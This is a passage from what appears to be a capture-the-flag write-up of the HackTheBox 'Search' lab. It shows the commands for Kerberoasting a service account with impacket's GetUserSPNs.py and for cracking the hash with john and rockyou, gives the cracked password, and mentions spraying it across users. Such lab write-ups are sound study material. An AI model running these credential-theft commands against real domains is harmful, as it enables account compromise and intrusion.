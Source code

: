 ### Kerberoasting `web_svc`
we use impacket's `GetUserSPNs.py`

**Command:**
```bash
python3 GetUserSPNs.py -debug -request -dc-ip 10.10.11.129 search.htb/hope.sharp:'IsolationIsKey?'
```

![kerberoasted](/assets/Search/kerberoasted.jpg)

And we crack the password using `john`

**Command:**
```bash
john web_svc_hash -w=/usr/share/wordlists/rockyou.txt
```

![cracked-with-john](/assets/Search/cracked-with-john.jpg)

The password was **"@3ONEmillionbaby"**

### Checking for Password Reuse
It has turned into a habit for me to spray any password I get on all possible users xD
